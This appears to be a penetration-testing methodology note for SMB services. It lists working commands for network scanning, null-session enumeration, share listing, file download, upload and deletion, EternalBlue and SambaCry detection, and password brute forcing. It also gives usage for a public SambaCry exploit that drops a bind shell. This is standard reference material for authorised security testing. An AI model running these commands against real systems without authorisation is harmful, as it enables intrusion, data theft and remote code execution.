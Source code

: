 # SMB - Methodology

### Network scan

Nmap and nbtscan can be used to scan the network for SMB services:

```
nmap -v -p 139,445 -oA nmap_smb <RANGE/CIDR>
nbtscan -r <RANGE>
```

### Basic recon

The Nmap *smb-os-discovery.nse* script attempts to determine the operating
system, computer name, domain, workgroup, and current time over the SMB
protocol.

```
nmap --script smb-os-discovery.nse -p 445 <IP>
nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 <IP>
```

### Null session

A null session refers to an unauthenticated NetBIOS session.  
A null session allows unauthenticated access to the shared files as well as a
large amounts of information about the machine, such as password policies,
usernames, group names, machine names, user and host SIDs.  
This Microsoft feature existed in SMB1 by default and was later restricted in
subsequent versions of SMB.  

To detect and retrieve information about the machine through a null session,
the enum4linux Perl script can be used:

```
enum4linux <TARGET>
```

Combine network scan and null session enumeration:

```
nbtscan -s ' ' <RANGE> | cut -d ' ' -f 1 | while read -r line ; do
  enum4linux $line > enum4linux_$line.txt
done
```

### List accessible shares

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.

```
nmap -v -sT -p 139,445 --script smb-enum-shares.nse <HOST>
nmap -v -sU -sT -p U:137,T:139,445 --script smb-enum-shares.nse <HOST>
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbpassword=<PASSWORD>
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbhash=<HASH>

smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -L (-H HOST | --host-file FILE)  

smbclient -U "" -N -L <HOST>
smbclient -U <USER> -L <HOST>
```

### List and search files

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.

```
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares,smb-ls --script-args maxdepth=-1
nmap -v -sT -p 139,445 <HOST> --script smb-ls --script-args share=<SHARE>,maxdepth=-1
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares,smb-ls --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbpassword=<PASSWORD>,maxdepth=-1
nmap -v -sT -p 139,445 <HOST> --script smb-enum-shares,smb-ls --script-args smbdomain=<DOMAIN/WORKGROUP>,smbusername=<USERNAME>,smbhash=<HASH>,maxdepth=-1

smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -F <PATTERN> (-H HOST | --host-file FILE)  

smbclient -U <USER> \\\\<HOST>\\<SHARE>
```

Smbmap can be used to download, upload or delete a file:

```
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] --download/--upload/--delete <PATH> (-H HOST | --host-file FILE)  
```

The share may also be mounted using the Linux mount utility tool:

```
mount -t cifs -o username=<USER> //<HOST>//<SHARE> /mnt/<FOLDER>
mount -t cifs -o username=<USER>,password=<PASSWORD> //<HOST>//<SHARE> /mnt/<FOLDER>
```

### Check for known vulnerabilities

Nmap command can be used to check for the following exploits:

```
smb-vuln-ms08-067
smb-vuln-ms10-054
smb-vuln-ms10-061
smb-vuln-ms17-010 / cve-2017-7494
smb-vuln-regsvc-dos

nmap -v -p 139,445 --script=vuln <TARGET>
```

### EternalBlue & SambaCry

###### Detect vulnerability

The Nmap *smb-vuln-ms17-010.nse* and *smb-vuln-cve-2017-7494* scripts attempt
to detect if a SMBv1 server is vulnerable to the remote code execution
vulnerability MS17-010, a.k.a. EternalBlue (vulnerability exploited by WannaCry
and Petya ransomware) or CVE-2017-7494 aka SambaCry.

```
# EternalBlue
nmap --script smb-vuln-ms17-010.nse -p 445 <IP>

# SambaCry
nmap --script smb-vuln-cve-2017-7494 -p 445 <IP>
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 <IP>
```

If no share is available to unauthenticated users, the server may still be
vulnerable for authenticated users, meaning finding credentials would lead to
RCE.  
The following versions are vulnerable:

```
# EternalBlue
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

# SambaCry
Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4
```

###### EternalBlue

###### SambaCry

The following exploit may be used to achieve RCE through the SambaCry
vulnerability:

```
# Source
https://github.com/opsxcq/exploit-CVE-2017-7494

# Usage
exploit.py [-h] -t <TARGET> -e <EXECUTABLE> -s <REMOTESHARE> -r <REMOTEPATH> [-u <USER>] [-p <PASSWORD>] [-P <REMOTESHELLPORT>]

# The libbindshell-samba.so of the repository can be used to get a bind shell on the server :
# -e libbindshell-samba.so -r <SHARE>/libbindshell-samba.so
```

### Authentication brute force

The patator tool can be used to brute force credentials on the service:

```
patator smb_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='NT_STATUS_LOGON_FAILURE'
```
